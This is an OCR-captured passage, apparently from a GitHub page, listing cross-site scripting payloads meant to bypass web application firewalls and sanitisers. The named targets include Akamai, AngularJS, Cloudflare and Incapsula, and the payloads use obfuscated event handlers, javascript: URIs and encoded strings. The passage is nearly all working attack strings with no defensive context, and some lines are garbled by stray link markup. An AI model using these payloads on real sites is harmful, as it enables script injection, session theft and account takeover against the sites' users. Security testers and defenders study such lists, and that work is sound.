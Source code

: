     # Akamai
    1%3C/script%3E%3Csvg/onload=prompt(document[domain])%3E
    <SCr%00Ipt>confirm(1)</scR%00ipt>
    
    # AngularJS
    {{constructor.constructor(alert 1 )()}}
    
    #html Sanitization Bypass
    <00 foo="<a%20href="javascript:alert('XSS-Bypass')">XSS-CLick</00>--%20/
    
    # Bypass ‘ ‘ ( ) 
    <iframe/src=javascript:alert%26%23x000000028%3b%27hacked%27)>
    # waf Bypass SVG
    <svg><a xlink:href=?usemap=/*&#x26;#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;*/onmouseover=window.focus()//>Hover me</a></svg>
    <Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>
    <textarea/onbeforeinput=kuro=&[#x27](tg://search_hashtag?hashtag=x27);//domain.tld&[#x27](tg://search_hashtag?hashtag=x27);;import(kuro)%09autofocus%09x>
    <div onpointerover="ja&#x76;ascr&#x69;pt:eva&#x6C;(decodeURICompo&#110;ent(String.fromCharCode(97, 108, 101, 114, 116, 40, 100, 111, 99, 117, 109, 101, 110, 116, 46, 100, 111, 109, 97, 105, 110, 41)))" style="width:100%;height:100vh;"></div>
    Payload before obfuscation: <div onpointerover="javascript:alert([document.domain](http://document.domain/?trk=public_post-text))" style="width:100%;height:100vh;"></div>
    ```
    
- [NO SCRIPT](https://github.com/R0X4R/D4rkXSS/blob/master/noscript.txt)
    
    ```html
    <acronym><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
    <bgsound><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
    <xmp><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
    ">'><details/open/ontoggle=confirm('XSS')>
    incapsulate bypass: <iframe/onload="var b ='document.domain)'; var a = 'JaV' + 'ascRipt:al' + 'ert(' + b;this['src']=a">
    ```
    
- [Brutelogic](https://github.com/R0X4R/D4rkXSS/blob/master/brutelogic.txt)
    
    ```html
    \\'-alert(1)//
    </script><svg onload=alert(1)>
    <x contenteditable onblur=alert(1)>lose focus!
    ```
    
- **IMG Error**
    
    ```html
    <img onerror="location='javascript:=lert(1)'" src="x">
    <img onerror="location='javascript:%61lert(1)'" src="x">
    <img onerror="location='javascript:\\x2561lert(1)'" src="x">
    <img onerror="location='javascript:\\x255Cu0061lert(1)'" src="x" >
    ```
    